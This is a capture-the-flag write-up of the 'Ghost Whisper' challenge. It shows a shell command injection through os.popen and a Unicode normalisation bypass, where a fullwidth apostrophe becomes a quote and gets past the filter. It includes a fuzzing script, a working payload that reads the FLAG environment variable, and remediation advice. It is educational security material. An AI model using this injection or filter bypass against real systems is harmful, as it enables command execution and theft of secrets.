


# 10-25: Ghost Whisper

## Description

> A mysterious website lets you whisper to ghosts. But can you shatter the veil of silence and make your own voice heard?

## Solution

In this writeup, we'll review the latest [YesWeHack](https://twitter.com/yeswehack) Dojo [challenge](https://dojo-yeswehack.com/challenge-of-the-month/dojo-46), created by [Brumens](https://twitter.com/Brumens2) 🎃

Follow me on [Twitter](https://twitter.com/_CryptoCat) and [LinkedIn](https://www.linkedin.com/in/cryptocat) (and everywhere else 🔪) for more hacking content! 🥰

### Source code review

#### setup.py

```python
import os
os.chdir('tmp')
os.mkdir('templates')

os.environ["FLAG"] = flag

with open('templates/index.html', 'w') as f:
    f.write('''
<!DOCTYPE html>
<html lang="en">
  SNIPPED
</html>
'''.strip())
```

After snipping the HTML, there isn't much code left in the setup script. We know the flag is in an environment variable and the app uses templates, maybe SSTI?

#### app.py

```python
import os, Unicodedata
from urllib.parse import unquote
from jinja2 import Environment, FileSystemLoader
template = Environment(
    autoescape=True,
    loader=FileSystemLoader('/tmp/templates'),
).get_template('index.html')
os.chdir('/tmp')

def main():
    whisperMsg = unquote("OUR_INPUT")

    # Normalize dangerous characters
    whisperMsg = Unicodedata.normalize("NFKC", whisperMsg.replace("'", "_"))

    # Run a command and capture its output
    with os.popen(f"echo -n '{whisperMsg}' | hexdump") as stream:
        hextext = f"{stream.read()} | {whisperMsg}"
        print( template.render(msg=whisperMsg, hextext=hextext) )

main()
```

1. All single quotes (`'`) in our input are replaced with underscores (`_`)
2. Input is normalised using "NFKC" normalisation\*
3. Input is inserted into an `echo` command, which is piped to `hexdump`
4. Input and \[hex-converted\] output of the command are rendered as a template

\*[NFKC](https://medium.com/data-science/difference-between-nfd-nfc-nfkd-and-nfkc-explained-with-python-code-e2631f96ae6c) (compatibility fold + canonical compose) collapses many visually-similar/codepoint-distinct characters (full-width forms, ligatures, some superscripts etc) into a standardised form. Sometimes Unicode normalisation can result in overflows/truncation, leading to useful character injections 👀

### Testing functionality

How cute is that ghost?! 👻 Let's start by entering a random string as an input 😺



We'll see the hex output from the command is printed alongside the normalised message (separated by a `|`)

```
0000000 656d 776f 0000004 | meow
```

Unhex those characters. We'll find our original input. It's jumbled because `hexdump` prints 16-bit words by default, and reverses each pair on little endian systems.

```bash
unhex 656d776f

emwo
```

Let's make a short script to explore further.

```python
import os
import Unicodedata

whisperMsg = input()
whisperMsg = Unicodedata.normalize("NFKC", whisperMsg.replace("'", "_"))

with os.popen(f"echo -n '{whisperMsg}' | hexdump") as stream:
    hextext = f"{stream.read()} | {whisperMsg}"
    print(hextext)
```

We'll see that submitting `'meow'` will trigger the replacement resulting in `_meow_`. This is important because if we wanted to inject into the command, we would want to close off the existing quote.

```bash
python test.py
'meow'

0000000 6d5f 6f65 5f77
0000006
 | _meow_
```

### Command Injection

If we can perform command injection, decoding the hexdump output will be trivial. Unfortunately, the developer used single quotes:

```bash
echo -n '$(whoami)'

$(whoami)
```

Instead of double quotes:

```bash
echo -n "$(whoami)"

crystal
```

Yep, our input is treated as literal string. We need to find a way to inject a single quote.

```bash
export FLAG=solved
```

We need to be careful not to break the command syntax, try and input: `meow' $FLAG '`

```bash
echo -n 'meow' $FLAG '' | hexdump

0000000 656d 776f 7320 6c6f 6576 2064
000000c
```

It works, we could even comment out the hexdump part with `meow' $FLAG '' #`

```bash
echo -n 'meow' $FLAG '' # | hexdump

meow solved
```

We have confirmed the command injection is easy to exploit, now we need to bypass the filter.

### Unicode Overflow

> [Unicode codepoint truncation](https://docs.google.com/presentation/d/1jW0o1YO3FNXlXVkAziM_wSGQqRdLP2kmfoBb6mF1bGY/edit#slide=id.g2f056d28156_1_250) - also called a [Unicode overflow](https://portswigger.net/research/splitting-the-email-atom#unicode-overflows) attack - happens when a server tries to store a Unicode character in a single byte. Because the maximum value of a byte is 255, an overflow can be crafted to produce a specific ASCII character.

[Portswigger: Bypassing character blocklists with Unicode overflows](https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows)
[Shazzer: Unicode table](https://shazzer.co.uk/unicode-table)

In other words; maybe we can find a Unicode character which truncates to a single quote when normalised with NFKC 🤔 Here's a quick fuzzing script:

```python
import Unicodedata

for cp in range(0x110000):
    c = chr(cp)
    norm = Unicodedata.normalize("NFKC", c)
    if cp in (0x27, 0x22):
        continue
    if "'" in norm or '"' in norm:
        try:
            name = Unicodedata.name(c)
        except ValueError:
            name = "<no name>"
        print(f"U+{cp:04X}\t{name}\t{c}\t->\t{norm!r}")
```

It finds a single quote Unicode character that _looks_ just like the ASCII version to the untrained eye.

```bash
python uni_test.py

U+FF02	FULLWIDTH QUOTATION MARK	＂	->	'"'
U+FF07	FULLWIDTH APOSTROPHE	＇	->	"'"
```

We can easily test this by converting to hex. Normal quote:

```bash
hex \'

27
```

Unicode quote:

```bash
hex ＇

efbc87
```

We will supply the payload: `meow＇ $FLAG ＇＇ #`

```bash
python test.py
meow＇ $FLAG ＇＇ #

meow solved  | meow' $FLAG '' #
```

It works 🙏 Now to repeat it against the real challenge.



Flag: `FLAG{Gh0s7_S4y_BOOO000oooo}`

## Remediation

-   Call commands without shell (swap `os.popen` with `subprocess.run`) so user input can't break out or inject new commands
-   Specify allowed characters instead of filtering bad characters
-   Perform validation checks _after_ processing (normalisation)

## Summary (TLDR)

This was a cute Halloween challenge featuring a basic command injection vulnerability 🎃 Things were complicated slightly by the presence of a filter which restricted the use of the single quote characters needed to escape the string 👻 Luckily for us the NFKC normalisation step introduced a second vulnerability; a Unicode overflow 🦇 Since the character validation occurred before the normalisation, sending a specially crafted Unicode character was sufficient to bypass the filter 😱
